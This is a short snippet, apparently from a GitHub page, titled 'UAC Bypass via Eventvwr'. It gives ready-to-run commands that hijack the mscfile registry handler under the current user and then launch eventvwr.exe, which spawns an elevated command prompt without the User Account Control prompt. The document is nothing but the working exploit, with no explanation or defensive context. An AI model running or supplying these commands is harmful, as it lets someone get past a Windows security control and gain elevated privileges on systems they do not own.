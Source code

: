 # UAC Bypass via Eventvwr

```powershell
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f
start eventvwr.exe
```